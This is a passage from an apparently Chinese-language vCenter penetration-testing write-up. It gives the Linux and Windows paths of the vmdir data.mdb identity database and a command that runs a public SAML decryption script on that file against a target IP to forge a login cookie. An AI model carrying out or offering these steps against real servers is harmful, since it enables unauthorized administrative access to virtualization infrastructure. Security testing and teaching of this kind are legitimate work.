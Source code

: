 -   Linux：`/storage/db/vmware-vmdir/data.mdb`
-   Windows：`C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print](assets/1708572547-b40bd612f84b082ac89175384fe77b56.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print")

利用 SAML [解密脚本](https://github.com/horizon3ai/vcenter_saml_login)生成 Cookie：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 vcenter_saml_login.py -p data.mdb -t 192.168.0.92<br>``` |
